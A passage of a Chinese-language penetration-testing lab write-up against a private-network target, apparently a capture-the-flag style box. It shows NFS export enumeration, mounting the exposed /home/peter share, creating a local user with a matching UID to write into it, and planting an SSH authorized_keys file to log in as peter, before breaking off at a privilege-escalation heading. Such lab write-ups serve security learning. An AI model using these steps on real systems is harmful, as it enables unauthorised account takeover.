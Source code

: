 ssh 连接一下，在kali上做：

```bash
ssh bob@192.168.244.129
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151397.png" alt="image-20240224211401425" style="zoom:50%;" />

### 40999、46043、57797（利用共享目录获取权限）

都在运行`mountd`，尝试枚举一下：

```bash
┌──(kali㉿kali)-[~]
└─$ showmount -e 192.168.244.129
Export list for 192.168.244.129:
/home/peter *
```

没发现啥东西。。。创建一个本地目录用以挂载网络共享资源：

```bash
mdkir peter
sudo mount -t nfs 192.168.244.129:/home/peter ./peter -o nolock
# 参数"-o nolock"表示在挂载时不使用文件锁定机制，这意味着允许多个客户端同时对文件进行读写操作，但也可能导致数据一致性问题。
cd peter
ls -la
mkdir .ssh
stat peter
sudo useradd -u 1001 hack
sudo -u hack bash
#hack
cd peter
mkdir .ssh
cd ../;cp authorized_keys peter/.ssh/

# kali
ssh-keygen -t rsa -b 2048
pwd
sudo cp id_rsa.pub /home/kali/temp/authorized_keys
```

![image-20240224214458643](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151398.png)

```bash
ssh -l peter 192.168.244.129
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151399.png" alt="image-20240224214725210" style="zoom:50%;" />

## 提权

参考[GTFOBins](https://gtfobins.github.io/)，有很多linux权限提升的方法！！！！

### /etc/passwd(bob and peter)
